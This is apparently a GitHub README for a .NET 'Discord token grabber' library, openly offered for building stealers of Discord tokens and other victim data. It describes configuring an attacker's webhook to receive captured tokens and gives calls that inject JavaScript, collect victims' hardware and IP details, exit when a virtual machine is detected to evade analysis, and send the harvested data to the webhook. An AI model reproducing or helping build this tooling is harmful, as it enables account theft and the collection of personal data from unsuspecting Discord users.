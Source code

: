 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Build
#### - Built using Visual Studio 2019 Community
1. Open project
2. Build Solution
3. ???
4. Profit

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.QuickStart(true);```
#### To collect hardware information
```Furious.Grabber.QuickStart(injectJS, getUserHardware: true);```
#### To check for a virtual machine
```Furious.Grabber.QuickStart(injectJS, getUserHardware, checkForVM: true);``` - if a VM is detected, the application will close instantly.
#### To send data (hardware, ip etc.) to webhook
```Furious.Grabber.SendData(await Grabber.GetHardware());```
# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
